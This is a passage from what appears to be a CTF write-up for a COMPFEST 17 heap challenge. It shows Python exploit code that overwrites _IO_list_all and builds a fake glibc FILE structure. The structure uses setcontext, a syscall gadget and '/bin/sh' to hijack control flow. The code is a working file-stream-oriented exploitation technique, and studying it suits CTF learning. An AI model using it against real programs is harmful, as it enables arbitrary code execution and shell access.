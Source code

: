 But before that i overwrite the `_IO_list_all` to fp at heap address. Then make fake fp with fsrop_context function

```python
payload = fsrop_context(fp)
alloc(0, 0x38, payload[:0x38] + b"\xff")
alloc(0, 0x38, payload[0x40:0x40+0x38] + b"\xff")
alloc(0, 0x38, payload[0x80:0x80+0x38] + b"\x00")
alloc(0, 0x38, payload[0xc0:])
alloc(0, 0x18, p64(fp))

```

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/FakePointer.png)


```python
def fsrop_context(fp=None, offset=0x48, rip=None, rsp=None, rbp=0x2, rdi=0, rsi=None, rdx=0x200, rbx=0x2, r8=0x2, r9=0x2, r12=0x2, r13=0x2, r14=0x2, r15=0x2):
    fp = fp if fp is not None else libc.sym["_IO_2_1_stdout_"]
    fs = IO_FILE_plus_struct()
    fs.flags = b"/bin/sh\0"
    fs._IO_read_ptr = 0x8
    fs._IO_read_end = fp - 0x10 #RDX
    fs._IO_read_base = r8 #R8
    fs._IO_write_base = r9 #R9
    fs._IO_buf_base = r12 #R12
    fs._IO_buf_end = r13 #R13
    fs._IO_save_base = r14 #R14
    fs._IO_backup_base = r15 #R15
    fs._IO_save_end = rdi #RDI
    fs.markers = rsi if rsi is not None else libc.bss() #RSI
    fs.chain = rbp #RBP
    fs.fileno = rbx & 0xffffffff #RBX
    fs._flags2 = rbx >> 32
    fs._old_offset = rdx #RDX
    fs._lock = fp + 0x10  #RCX
    fs._offset = rsp if rsp is not None else libc.bss() #RSP
    fs._codecvt = rip if rip is not None else nsa(libc, "syscall ; ret") #RIP
    fs._wide_data = fp - 0x10
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym["setcontext"] + 61) + p64(fp + 0xb0)
    fs.vtable = libc.sym._IO_wfile_jumps + offset - 0x18 # _IO_wfile_seekoff -> _IO_switch_to_wget_mode+37
    return bytes(fs)
```
